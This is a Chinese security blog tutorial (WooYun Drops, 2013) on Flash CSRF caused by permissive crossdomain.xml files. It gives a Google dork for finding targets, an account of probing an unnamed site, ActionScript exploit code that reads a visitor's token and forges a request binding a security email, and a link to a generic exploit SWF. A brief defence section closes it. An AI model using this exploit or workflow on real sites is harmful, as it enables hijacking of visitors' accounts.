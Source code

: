 # Flash CSRF

2013/10/28 11:29 | [_Dy](http://drops.wooyun.org/author/_Dy "由 _Dy 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 目录

* * *

```
0x00 Flash CSRF 名词解释
0x01 Flash CSRF 形成的原因
0x02 Flash CSRF 可以干些什么
0x03 Flash CSRF 如何利用
0x04 Flash CSRF 怎么防御 
```

## 0x00 Flash CSRF 名词解释

* * *

CSRF（Cross-site request forgery 跨站请求伪造，是一种对网站的恶意利用，CSRF 则通过伪装来自受信任用户的请求来利用受信任的网站。

Flash CSRF 通常是由于 Crossdomain.xml 文件配置不当造成的，利用方法是使用 swf 来发起跨站请求伪造。

## 0x01 Flash CSRF 形成的原因

* * *

So 官腔我们也打了，还是要干点实事 PS：:)

为人民服务的好孩子，我们来看看如何寻找 Flash CSRF:

首先我们要知道怎么形成 CSRF 的

PS:CSRF 形成的原因大概有以下几种：

Flash 跨域权限管理文件设置为允许所有主机/域名跨域对本站进行读写数据：

```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<cross-domain-policy>
    <allow-access-from domain="*"/>
</cross-domain-policy>

```

Flash 跨域权限管理文件过滤规则不严(domain=”*”)，导致可以从其它任何域传 Flash 产生 CSRF。

## 0x02 如何来发现哪些地方存在 Flash CSRF

* * *

骚年们，前面我们介绍了形成 Flash CSRF 的原因，我们是不是就可以对站下药了，难道又有一波个人资料被莫名被修改成“狗皮膏药”广告的节奏啊，敬告各位看官，看见了这篇文章之后请检查自己的站是否存在 Flash CSRF 以免减少被举报而带来的巨额损失啊（吊丝们对各位看官望尘莫及啊）：

由上面我们得知 Flash CSRF 是因为跨域权限管理文件配置不当而产生的，所以我们可以在根目录打开 Crossdomain.xml 来查看该网站或者只域名是否存在 FLAH 的 CSRF：

```
http://www.xxx.com/crossdomain.xml 
```

```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<cross-domain-policy>
<allow-access-from domain="*"/>
</cross-domain-policy>

```

## 0x02 Flash CSRF 可以干些什么

* * *

在一个月黑风高的夜晚，Flash CSRF 慢慢的在向 XX 网靠近，下面说说我是怎么找到 XX 网的 Flash CSRF 和利用 XX 网的 Flash CSRF 直接修改访问者账号信息。

无聊的逛着各大新闻网站，感觉这些大部分新闻网站的新闻源都差不多没几下就看完了，最后觉得自己作为天朝一员还是应该关系关系下国家大事，就懵懂懂的打开了 XX 网，关心了下我国基本国情，始终耐不住寂寞，正好前两天学习了 Flash CSRF 的原理和危害，但是一直没找到东西练手，大家都知道天朝的网站是多么的牛 B，但是也只是抱着试试的心态，完全就是小孩子玩玩泥巴而已了，玩笑时间到，回到正题:),我先打开 xx 网，按照刚刚前面查找该网站是否有 Flash CSRF 漏洞我们第一步该判断什么？没错就是看官们看到的这样，我也只是个凡人而已。。。。于是就有了如下的 FlashCSRF 漏洞查找流程：

```
Google hack:crossdomain filetype:xml 
```

```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<cross-domain-policy>
<allow-access-from domain="*" secure=”true”/>
</cross-domain-policy>

```

Secure=true 的意思是只允许通过安全链接来请求本域的数据。

随手查看了发现前 2 个全都是需要用 ssl 证书加密了之后的网站里面的 Flash 的文件才能获取本域的内容，突然之间脑海就浮现了一种奇怪的想法，自己搭建 SSL 网站，然后调用 Flash 文件进去不就可以读他们网站的数据和发送 post 请求，可是又遇见瓶颈了，找了这么多地方我 Flash 还没有地方可以插的，在不屑努力下，找到 BLOG 根目录下面的 CrossDomain.xml 文件居然允许所有主机的 Flash 读取本域的数据-PS：），下面我们就试试 BLOG 页面,发现也有，当然耐心也是必须的。

## 0x03 Flash CSRF 如何利用

* * *

我们找一个可以插入 Flash 的地方，插入我们自己写的 Flash，访客访问我们网页就会执行我们写的脚本，下面我们来看看 Flash CSRF 具体利用方法。
So~下面我们来制造一个访客访问我们链接的时候，自动设置自己的密保邮箱：

首先我们添加保密邮箱点提交，然后抓包分析它提交了什么内容，然后来构造我们的 Flash CSRF 利用代码,下面我们提交绑定保密邮箱请求，抓包分析它的数据。
申请保密邮箱，浏览器向服务端发送了一个 POST 请求，请求地址和参数为：

```
POST:xxx.xxx.xx/xx.jsp?userid=xxxx&mail=dddd@dddd.com 
```

由于我们之前测试保密邮箱得知服务端没有验证 Referer，但是页面验证了 Token，所以我们就可以直接把 POST 数据包中的请求地址，参数名，参数值，Token 值取出来用于伪造绑定保密邮箱的请求。

利用代码：

```
package {
    import flash.display.Sprite;
    import flash.events.Event;
    import flash.net.*;
    import flash.text.TextField;
    public class url extends Sprite
    {
        public function url()
        {
            //获取当前页面 userid/token
            var echo_txt:TextField = new TextField();
            var targetURL:String = "http://xx.xx.cc";
            var request:URLRequest = new URLRequest(targetURL);
            request.method = URLRequestMethod.GET;
            request.data = "";
            sendToURL(request);
            var loader:URLLoader=new URLLoader();
            loader.addEventListener(Event.COMPLETE,completeHandler);
            function completeHandler(event:Event):void{
            var userid:String=((loader.data+"").match(/\/xxxx\/mxxxx\.php\?xxid=(\d+)/)||["",""])[1];

 var masthash:String=((loader.data+"").match(/\/xxxx\/mxxxx\.php\?masthash=(\d+)/)||["",""])[1];
            echo_txt.text =  masthash;
            //伪造申请密保邮箱 POST 请求
            var emailtargetURL:String = "http://xxxxxx.xx.cc/xxxx/xxxx.jsp?mark=send";
            var emailrequest:URLRequest = new URLRequest(emailtargetURL);
            emailrequest.method = URLRequestMethod.POST;
            var postdata:Object = new Array();
            postdata[0]="xxxx=xxxx@xxx.cc&xxxx="+xxxxx&"xxxxx="+xxx;
            emailrequest.data = postdata[0];
            sendToURL(emailrequest);
            }
            loader.load(request);
        }
    }
}

```

我们用一个新账号来做测试看看效果 ：）

## 0x04 Flash CSRF 怎么防御

* * *

知道 Flash CSRF 攻击流程，然后在防御就 so easy 了~:)

妈妈再也不担心我被 Flash CSRF 啦~虽然各位看官都明白了怎么防御，但是还是照例啰嗦一下啦：

一句话概括：站点根目录 CrossDomain.xml 跨域获取信息权限控制好，精确到子域，不给不法分子留下机会！！
附一份自己网站的 CrossDomain.xml 文件权限配置：

```
<?xml version="1.0"?>
<cross-domain-policy>
  <allow-access-from domain="http://xx.xx.com" secure="true”/>
<allow-access-from domain="http://cc.xx.com" secure="true”/>
</cross-domain-policy>

```

根据自己的业务需求来更改 CrossDomain.xml 文件配置，切记精确到子域，这样会大大减少 Flash CSRF 的风险！

通用 Flash CSRF EXP : [FlashCSRFexp.swf](http://static.wooyun.org/20141017/2014101716304958791.swf)

使用方法：

```
FlashCSRFexp.swf?url=http://www.xx.xx/x.jsp?&xx=xx&xx=xx&xx=xx&xx=xx
PS:url=[post 请求的地址]&[参数值用&分开] 
```

谢谢各位大牛捧场，十分感谢二哥，长短短，PKAV 团队的技术栽培 :)~

版权声明：未经授权禁止转载 [_Dy](http://drops.wooyun.org/author/_Dy "由 _Dy 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Web 前端攻防](http://drops.wooyun.org/tips/2686)
*   [Flash 安全的一些总结](http://drops.wooyun.org/tips/153)
*   [解密 JBoss 和 Weblogic 数据源连接字符串和控制台密码](http://drops.wooyun.org/tips/349)
*   [一次 app 抓包引发的 Android 分析（续）](http://drops.wooyun.org/tips/2986)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)